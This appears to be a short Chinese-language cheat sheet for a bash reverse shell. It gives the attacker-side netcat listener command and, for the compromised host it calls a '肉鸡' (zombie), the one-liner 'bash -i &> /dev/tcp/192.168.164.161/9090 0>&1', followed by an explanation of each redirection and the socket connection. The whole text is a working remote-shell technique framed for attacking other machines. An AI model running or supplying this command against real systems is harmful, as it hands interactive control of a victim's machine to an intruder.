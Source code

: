 # 攻击端

	~]# nc -lvvp 9090		#监听本机IP 9090端口

# 肉鸡

	~]# bash -i &> /dev/tcp/192.168.164.161/9090 0>&1
	
	bash -i ：启动一个子shell进程
	&>		：将标准输出和标准错误都重定向到我们指定的文件中
	/dev/tcp/192.168.164.161/9090	：特殊文件，会建议一个到192.168.164.161 9090的socket连接
	0>&1	：&>使得标准输出重定向到了我们的TCP连接上，然后0>&1使得标准输入又重定向到了标准输出中，最终的结果就是标准输入也被重定向到了TCP连接中，因此输入和输出都可以在公网主机上进行，通过TCP连接和bash进行交互